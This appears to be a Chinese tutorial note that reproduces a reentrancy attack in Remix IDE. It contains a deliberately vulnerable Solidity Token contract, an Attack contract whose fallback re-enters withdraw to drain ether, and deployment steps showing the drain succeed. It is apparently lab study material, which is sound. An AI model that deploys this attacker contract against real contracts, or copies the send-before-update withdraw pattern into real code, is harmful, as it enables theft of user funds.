









# 以太坊私有链搭建

https://blog.csdn.net/jomante/article/details/115090956

# 重入攻击复现

在REMIX IDE中 新建test.sol文件



注意左侧的编译器选0.4.x



```solidity
contract Token {
mapping(address => uint) public balances;
function deposit() public payable {
balances[msg.sender] += msg.value;
}
function withdraw() public {
uint amount = balances[msg.sender];
require(amount > 0);
msg.sender.call.value(amount)(""); // bug 进入到攻击合约的fallback函数中
balances[msg.sender] = 0;
}
}
contract Attack {
Token public instance;
constructor(address _addr) {
instance = Token(_addr); // 实例化
}
function attack() external payable {
instance.deposit.value(1 ether)(); //存钱，保证能调用withdraw()
instance.withdraw(); // 开始攻击
}
function balanceSelf() public returns(uint256) {
return this.balance;
}
function() external payable {
if (address(instance).balance >= 1 ether)// 如果完成攻击则返回
instance.withdraw(); // 重入
}
}
```

然后点击左上角的三角形编译

然后点击左侧准备部署，选好一个账户，选Token再deploy




然后value改5，单位改ether，点下面的deposit



就存入了5 ETH



然后换Attack，点击刚才token的地址部分，点复制拿到地址，拷贝到deploy旁边的位置，上面account换一个账户，然后点deploy





部署完了之后，value改1，点下面的attack红色按钮。



1+5 = 6. 发现重入攻击成功。

